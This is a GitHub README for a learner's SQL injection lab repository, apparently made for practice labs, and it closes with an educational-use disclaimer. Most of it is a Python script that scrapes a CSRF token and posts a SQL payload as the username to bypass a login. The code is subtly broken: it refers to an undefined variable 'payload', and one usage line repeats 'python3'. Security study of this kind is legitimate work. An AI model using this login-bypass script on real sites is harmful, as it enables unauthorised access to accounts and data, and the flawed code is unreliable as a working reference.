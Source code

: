 # SQL Injection Labs Repository

This repository contains Python scripts for various SQL injection labs I am working on while learning SQL injection techniques using Burp Suite. Each lab has its own script, and this README will be updated as I progress through the labs.

# Labs Overview

## Lab 1: Basic SQL Injection

- **Description**: This lab demonstrates a basic SQL injection attack by exploiting a vulnerable URL parameter.
- **Script**: `sql_injection1.py`
- **Status**: Completed

```bash

python3 script.py <url> <payload>

sql_injection1.py
```

## Lab 2: Basic SQL Injection

- **Description**: This lab demonstrates SQL injection while handling CSRF tokens. It retrieves the CSRF token from the webpage and uses it to attempt a login with an SQL payload.
- **Script**: `sql_injection2.py`
- **Status**: Completed
```bash

python3 python3 labX_script.py <url> <sql_payload>

import sys
import requests
import urllib3
from bs4 import BeautifulSoup 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies= {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}

def get_csrf_token(s,url):
    res = s.get(url,verify=False,proxies=proxies)
    soup = BeautifulSoup(res.text,'html.parser')
    csrf=soup.find("input")["value"]
    return csrf

def exploit_sqli(s,url,payload):
    csrf=get_csrf_token(s,url)
    data={"csrf":csrf,"username":payload,"password":"12345678"}
    r=s.post(url,data=data,verify=False,proxies=proxies)
    ras=r.text
    if "log out" in ras:
        return True
    else:
        return False


if __name__== "__main__":
    try:
        url=sys.argv[1].strip()
        sqli_payload=sys.argv[2].strip()
    except IndexError:
        print("use the below bash command on your terminal")
        print("use python3 file.py <url> <sql payload>")
    s=requests.Session()
    if exploit_sqli(s,url,payload):
        print("the sql injetion is successful we have logged in")
    else:
        print("the sql injection is not successful we are not logged in")

```


#### Requirements

- pip install requests beautifulsoup4





# Disclaimer

- These scripts are intended for educational purposes only. Use them responsibly and only on applications you own or have explicit permission to test.